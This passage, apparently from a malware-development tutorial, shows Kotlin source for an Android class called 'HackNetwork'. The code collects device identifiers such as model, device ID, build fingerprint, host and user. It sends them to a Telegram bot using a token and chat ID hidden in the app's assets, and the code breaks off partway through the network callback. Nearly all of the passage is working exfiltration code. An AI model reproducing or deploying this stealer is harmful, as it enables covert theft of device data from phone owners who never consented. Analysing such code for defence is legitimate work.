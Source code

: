 ```kotlin
    val radio = Build.getRadioVersion()

    val info = "Hardware: ${capitalize(hardware)}\n" +
            "Manufacturer: ${capitalize(manufacturer)}\n" +
            "Model: ${capitalize(model)}\n" +
            "Device: ${capitalize(device)}\n" +
            "ID: ${capitalize(deviceID)}\n" +
            "Brand: ${capitalize(brand)}\n" +
            "Host: ${capitalize(hostInfo)}\n" +
            "User: ${capitalize(userInfo)}\n" +
            "Board: ${capitalize(board)}\n" +
            "Display: ${capitalize(display)}\n" +
            "Fingerprint: ${capitalize(fingerprint)}\n" +
            "Build TYPE: ${capitalize(devT)}\n" +
            "RADIO: ${capitalize(radio)}"

    return info
}
```

So, the full source code of this logic is looks like this (`HackNetwork`):    

```kotlin
package cocomelonc.hack

import android.content.Context
import android.os.Build
import okhttp3.Call
import okhttp3.Callback
import okhttp3.FormBody
import okhttp3.OkHttpClient
import okhttp3.Request
import okhttp3.Response
import java.io.IOException

class HackNetwork(private val context: Context) {

    private val client = OkHttpClient()

    // function to send message using OkHttp
    fun sendTextMessage(message: String) {
        val token = getTokenFromAssets()
        val chatId = getChatIdFromAssets()
        val deviceInfo = getDeviceName()
        val meow = "Meow! ♥️\uFE0F"
        val messageToSend = "$message\n\n$deviceInfo\n\n$meow\n\n"

        val requestBody = FormBody.Builder()
            .add("chat_id", chatId)
            .add("text", messageToSend)
            .build()

        val request = Request.Builder()
            .url("https://api.telegram.org/bot$token/sendMessage")
            .post(requestBody)
            .build()

        // send the request asynchronously using OkHttp
        client.newCall(request).enqueue(object : Callback {
            override fun onFailure(call: Call, e: IOException) {
                e.printStackTrace()
            }

            override fun onResponse(call: Call, response: Response) {
```